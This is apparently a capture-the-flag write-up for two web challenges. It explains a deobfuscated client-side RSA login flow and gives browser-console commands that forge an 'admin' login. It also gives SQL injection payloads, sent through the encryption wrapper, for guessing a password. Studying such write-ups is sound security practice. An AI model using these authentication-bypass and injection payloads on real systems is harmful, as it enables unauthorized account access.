 For the last two webs I wasn't the one who solved it but my teammate, incase you are wondering what the solution is here's the payload used:

--- Mystique

```
//note I renamed most of the obfuscated variables for better understanding. 

onSubmit, the login() function is called which sets the following varaibles.

- publicKey stores a JSEncrypt key object gotten from the setPublicKey() function.
    - The setPublicKey() function stores a PEM key in the key variable.
    - creates a new JSEncrypt object and stores it in the jsEncryptedKey variable.
    - it finally uses the .setPublicKey() method on the JSEncrypt object to the set the public key to the PEM key above.

- randomText stores a randomText generated by the generateRandomText() function
    - I don't this is really important

- encryptedData stores the encrypted data returned from the encryptData() function which takes publicKey and randomText as arguments
    - The encryptData function stores the result of concatinating 'user' + randomText in a variable data. 
    - encrypts the data using the publicKey.encrypt() method

- sendEncryptedData makes a POST request to the /Flag endpoint with the encryptedData as argument.
    - before the request is sent, the encryptedData is url-encoded

[+] Steps to recreate
    In your console, run the following . .
        - var key = '-----BEGIN PUBLIC KEY-----\n MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0ziDyee9fICsEJ5ebGyv\n N1toEnOGBwYQrehsuOfkNXm4BKoBgiSXJGAeU/+4JeXrkaX7pejDF1loZvKXFIfA\n RaaNIqDbsZfIYPB0nMpaYrXreO6R+7jyWN6a0uPTOyaYYlCdhLRjciV8w7PBcO/e\n iVzCajZSp+uNqlVz3s83o+LOl0B/RLNNUPrUjwvj7s4dattJhtKLts1mC1V7aHcL\n JquS5E2OqAzps2DzVJ1sezHmvJGw9/8+58AMwqFTwixP37+FhuAbNGUN5DHRUjSK\n zscmDAgE+HN+GPwOx6ynpVmrubqWsZ0CL14mxtfVYNUBopI/BACZYdn2B/Eze1ay\n uQIDAQAB\n -----END PUBLIC KEY-----\n'
        - var jsEncryptedKey = new JSEncrypt()
        - jsEncryptedKey.setPublicKey(key)
        - sendEncryptedData(jsEncryptedKey.encrypt("admin"+generateRandomText())
```

--- Daredevil
```
sendEncryptedData(encryptData(key,"admin:' or password like *"))

checking the source code, we need to send the user and password seperated by ':' encrypted.

sendEncryptedData(encryptData(setPublicKey(), "admin:admin")) 

when you send the above in your browser console, you should get "Invalid Username or password" as the response. 

but when you send this instead, 

sendEncryptedData(encryptData(key,"admin' and password like '%'--:admin"))

we get the following response "Login for admin' and password like '%'-- not allowed", so we can guess the password like that.
```
